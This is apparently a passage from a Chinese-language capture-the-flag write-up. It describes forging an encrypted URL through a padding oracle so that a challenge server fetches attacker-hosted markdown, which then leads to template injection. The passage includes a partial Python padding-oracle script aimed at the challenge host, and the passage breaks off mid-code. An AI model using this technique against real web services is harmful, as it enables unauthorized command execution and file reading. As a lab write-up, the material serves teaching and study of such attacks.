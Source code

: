 再看看它网页的内容

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019b6973032197175b.png)

这样就明白了,  

也就是说他的 view 后面直接跟的链接。他会读取链接的内容,然后进行 markdown 转换,然后在进行模板渲染。  

所以接下来的思路也就很明确很简单了,让它访问我们的网站预先放好的 md ,然后就是个 ssti 了,通过一些奇怪姿势找

到执行命令或是读取文件的函数就行了。  

这里由于有了第四个链接,所以构造一个目录如下:

第四个密文对应明文: https://raw.githubusercontent.com/dlitz/pycrypto/master/READMEx02x02

我的网页: http://xxx.xxx.xx.xxx:8000/xxxxxxxxxxxxxxxxxxxxx/master/READMEx02x02

最后一组明文和他密文解密出来的一样,这样我就可以维持最后一个分组密文以及倒数第二个分组的密文不变了。然后依

次通过 padding oracle 获取中间值,与构造的密文异或得到构造的密文,从而得到我的网址对应的密文  

至于具体 padding oracle 伪造明文的原理这里不赘述了。  

代码如下:



```
import requests
import base64
import time
url='http://markisfaillingdowndrunk.quals.nuitduhack.com/view/'
N=16
phpsession=""
ID=""
def inject(param):
    result=requests.get(url+param)
    #print result.content
    return result
def xor(a, b):
    print "length",len(a),len(b)
    return "".join([chr(ord(a[i])^ord(b[i%len(b)])) for i in xrange(len(a))])
def pad(string,N):
    l=len(string)
    if l!=N:
        return string+chr(N-l)*(N-l)
def padding_oracle(N,cipher): ##return middle
    get=""
    for i in xrange(1,N+1):
        for j in xrange(0,256):
            padding=xor(get,chr(i)*(i-1))
            c=chr(0)*(16-i)+chr(j)+padding+cipher
            print c.encode('hex')
            result=inject(c.encode('hex'))
            if result.status_code!=500:
                print j
                get=chr(j^i)+get
                break
    return get
'''
s=["deadbeefcafedeadbeefcafe04030201b2c7da6ca163321fc0e96e98df20b58389e055de04be2972edc654d2f609d9608bc083bf5f35eba62d7faf73d7ec7fec88743a46bbd5711e9f954f7f54c211a3ef30067df218e84a474ec00dc1789b3c053fd578c86f6e87e080a63c6191289cd4f2e5178882f36097ae40214323b2bde2491de75c6603a708b61f80efc07b2da2d626137891b74c7019b040db51f468a2d6978e726e5c35ad9ce7f1dbc06cba",
"deadbeefcafedeadbeefcafe0403020152208110d1a06ce628ff8e10f4cbc1aa96ac276f57b6d80e50df1050c455fdf441aee00f376a598270a8d830ddf58ab489e053dbbfba4b30652f718567777364a07d5b453fb6ab946cc6ce6485f6250d583fbaac9fb0d169de6184a1c1fa0a30",
"deadbeefcafedeadbeefcafe0403020131fdd089e91025df9510efa46b2085aac738ae5e03daa6495e2e4ee83283282a5be01dd6d817df2c0e69cd613c7da160a6aab9f02d175ac549feb6b674fa6f65",
```